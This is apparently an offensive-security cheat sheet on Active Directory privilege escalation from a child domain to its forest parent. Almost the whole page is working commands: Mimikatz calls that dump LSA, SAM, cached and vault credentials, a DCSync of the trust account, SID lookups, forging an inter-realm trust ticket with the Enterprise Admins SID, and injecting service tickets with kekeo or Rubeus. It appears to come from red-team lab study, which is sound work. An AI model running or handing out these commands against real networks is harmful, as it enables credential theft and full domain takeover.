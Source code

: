## Escalating privileges across domains 
There is an implicit two-way trust of domains with other domains in the same forest  
There are two ways of escalating privileges between domains in the same forest:  
– Trust tickets  
– Krbtgthash  

### Mimikatz - Mix
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred /patch" "exit"'
```
### Mimikatz -  Get Clear-Text Passwords of scheduled tasks
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch"'
```

### Using the domain trust key - Child to parent using Trust Tickets  
* get rc4 trust key  
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```
or  
```
Invoke-Mimikatz-Command'"lsadump::dcsync/user:dcorp\mcorp$"'
```
* get SID current domain  
```
Get-DomainSID (PowerView)
```

* get SID of the enterprise admins group of the parent domain  
```
Get-DomainGroup -Identity "Enterprise Admins" -Domain <parent_domain>
```

* Exploiting  
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<child_domain> /service:krbtgt /rc4:<rc4_trust_key> /sid:<sid_current_domain> /sids:<sid_enterprise_admins> /target:<parent_domain> /ticket:C:\Tools\kekeo_old\trust_tkt.kirbi"'
```

```
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/ok-dc.<parent_domain>
.\kirbikator.exe lsa .\CIFS.ok-dc.<parent_domain>.kirbi
```
or  
```
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/ok-dc.<parent_domain> /dc:ok-dc.<parent_domain> /ptt
```
```
klist
```
